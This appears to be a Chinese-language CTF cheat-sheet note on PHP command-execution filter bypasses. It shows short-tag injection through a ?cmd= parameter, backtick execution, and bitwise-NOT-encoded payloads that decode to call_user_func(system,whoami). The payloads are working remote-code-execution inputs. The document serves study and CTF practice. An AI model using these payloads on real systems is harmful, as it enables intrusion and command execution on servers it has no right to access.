


**短标签**
```php
<?=  
phpinfo();  
?>

?cmd=?><?=`$_GET[_]`?>&_=ls  #?>用于闭合标签
取反
?cmd=?><?=`{${~"%a0%b8%ba%ab"}[%a0]}`?>&%a0=ls
一样可以执行php代码
```

**($a)()与call_user_func() ==php7==**
```php
($a)() # 前面括号是函数名，后面是参数

mixed call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] )
call_user_func 是一个 PHP 内置函数，用于**通过变量名来调用函数或方法**。它是一种**动态调用**的方式，在你编写代码时可能不知道具体要调用哪个函数，这个函数名是在运行时决定的。
	- $callback： 要被调用的回调函数。它可以是一个**函数名字符串**，一个**匿名函数**，或者一个**表示对象方法和类静态方法的数组**。
	- $parameter： 传入回调函数的参数。你可以传递多个参数，数量与回调函数需要的参数一致。  
	- 返回值： 返回回调函数的执行结果。


?cmd=(~%9c%9e%93%93%a0%8a%8c%9a%8d%a0%99%8a%91%9c)(~%8c%86%8c%8b%9a%92,~%88%97%90%9e%92%96,'');
取反得?cmd=(call_user_func)(system,whoami,'');
```


**==php5==**
